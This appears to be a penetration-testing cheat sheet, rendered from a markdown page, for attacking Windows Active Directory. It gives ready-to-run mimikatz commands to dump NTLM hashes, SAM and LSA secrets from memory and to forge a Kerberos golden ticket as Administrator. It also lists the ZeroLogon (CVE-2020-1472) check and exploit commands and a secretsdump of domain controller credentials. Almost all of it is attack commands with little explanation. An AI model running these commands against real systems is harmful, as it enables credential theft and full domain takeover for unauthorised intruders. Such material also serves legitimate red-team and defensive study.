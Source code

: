 Dump credentials stored in memory

mimikatz
```
privilege::debug
sekurlsa::logonpasswords            #dump ntlm hash
lsadump::sam                        #dump sam
lsadump::lsa /patch                 #dump lsa
```

### golden ticket

[mimikatz Github link](https://github.com/gentilkiwi/mimikatz)

```
lsadump::lsa /inject /name:krtgt
# save Domain SID 
# save NTLM hash
kerberos::golden /User:Administrator /domain:domain.name /sid:domain_sid /krbtgt:ntlm_hash /id:500 /ptt
misc::cmd
```

### zerologon (CVE-2020-1472)
/very dangerous could destroy domain controller

[dirkjanm CVE-2020-1472 POC Github link](https://github.com/dirkjanm/CVE-2020-1472)

[SecuraBV ZeroLogon Checker Github link](https://github.com/SecuraBV/CVE-2020-1472)

checking if vuln
```
python3 zerologon_check.py domain_controller-DC ip
```

running the exploit
```
python3 cve-2020-1472-exploit.py domain_controller-DC ip
```

check and restore
```
secretsdump.py -just-dc domain/domain_controller-DC\$@ip

secretsdump.py administrator@ip --hashes hash

python3 restorepassword.py domain/domain_controller-DC@domain_controller -target-ip ip -hexpass hexpass
```
